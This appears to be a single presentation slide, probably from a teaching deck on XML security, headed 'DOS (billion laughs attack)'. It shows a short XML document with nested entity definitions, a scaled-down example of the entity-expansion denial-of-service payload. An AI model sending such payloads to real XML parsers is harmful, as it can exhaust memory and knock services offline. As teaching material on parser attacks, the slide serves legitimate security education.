

# DOS (billion laughs attack)
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> ]>
<lolz>&lol3;</lolz>